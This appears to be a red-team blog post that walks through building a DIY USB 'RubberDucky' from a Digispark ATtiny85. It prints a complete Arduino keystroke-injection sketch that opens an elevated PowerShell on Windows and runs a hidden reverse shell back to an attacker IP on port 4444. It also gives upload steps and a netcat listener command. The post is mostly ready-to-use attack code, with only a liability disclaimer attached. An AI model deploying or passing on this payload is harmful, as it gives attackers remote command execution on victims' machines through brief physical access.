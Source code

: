 ```yaml
---
title: "DIY RubberDucky Instant Shell"
description: "Get an install shell in less than 30 sec with a DIY RubberDucky."
date: "2021-07-10"
categories: [PoC]
tags: [windows, rubberducky, red team, penetration testing, physical security]
pin: true
math: true
mermaid: true
image:
  path: "/assets/img/rubberducky/rubberducky.png"
  alt: "DIY RubberDucky"
---
```


In the previous post, I've walked through how to set up a DIY RubberDucky. In this post, I'll walk through how you can get a shell access in less than 1 minute.

### Payload

Github: [https://github.com/MTK911/Attiny85/tree/master/payloads/Instant%20Shell](https://github.com/MTK911/Attiny85/tree/master/payloads/Instant%20Shell)

Fire up your Arduino IDE. Make sure Digispark drivers are installed. If you haven't done so already, please see my previous post for the setup guide.

Make sure that Boards Manager is set to `Digistump 16.5mhz` and Programmer set to `Micronucleus`.

Paste the code into the IDE:

```
#include "DigiKeyboard.h"
#define KEY_TAB 0x2b
void setup() {
  pinMode(1, OUTPUT); //LED on Model A
}
void loop() {
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(3000);

  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //run
  DigiKeyboard.delay(500);
  DigiKeyboard.println("taskmgr"); //starting taskmgr
  DigiKeyboard.delay(5000);
  DigiKeyboard.sendKeyStroke(KEY_F, MOD_ALT_LEFT);
  DigiKeyboard.sendKeyStroke(KEY_N);//run
  DigiKeyboard.delay(2000);
  DigiKeyboard.print("powershell -noexit -command \"mode con cols=18 lines=1\"");//start tiny PowerShell
  DigiKeyboard.sendKeyStroke(KEY_TAB);
  DigiKeyboard.sendKeyStroke(KEY_SPACE);//turn on admin privileges
  DigiKeyboard.sendKeyStroke(KEY_ENTER); //run
  DigiKeyboard.delay(5000);
  DigiKeyboard.println("taskkill /IM \"taskmgr.exe\" /F ");//killing taskmanager
  DigiKeyboard.delay(2000);
  DigiKeyboard.println("cmd");//run cmd
  DigiKeyboard.delay(2000);
  DigiKeyboard.println(F("powershell -windowstyle hidden -command \"$client = New-Object System.Net.Sockets.TCPClient('<YOUR_IP_ADDRESS>',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"")); //powershell to attacker
  DigiKeyboard.delay(5000);
  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW);
  DigiKeyboard.delay(5000);
}
```

Your IDE should now look something like this:

![DIY RubberDucky](/assets/img/instantshell/shell01.png)

Make sure to change the attacker IP address and port number. You can play around with the delay to better suit your needs. 

Press `Upload` button when ready.

![DIY RubberDucky](/assets/img/instantshell/shell02.png)

You will see the message saying: `Plug in the device now...`.

![DIY RubberDucky](/assets/img/instantshell/shell03.png)

Plug in your ATtiny85. When done, `Micronucleus done. Thank you!` message will show.

![DIY RubberDucky](/assets/img/instantshell/shell04.png)

> Always remember to unplug the Digispark before hitting upload and plug it in when the Arduino IDE requests you to. If you get an error that assertion failed or micronucleus crashed during upload then you probably did not unplug your Digispark before uploading.

Set up your listener:

```
nc -lvnp 4444
```

If everything goes right, you will get a shell access in no time.

![DIY RubberDucky](/assets/img/instantshell/shell05.png)

For any questions, feel free to reach out to me on twitter.

> DISCLAIMER: All the software/scripts/applications/things in this repository are provided as is, without warranty of any kind. Use of these software/scripts/applications/things is entirely at your own risk. Creator of these softwares/scripts/applications/things is not responsible for any direct or indirect damage to your own or defiantly someone else's property resulting from the use of these software/scripts/applications/things. 
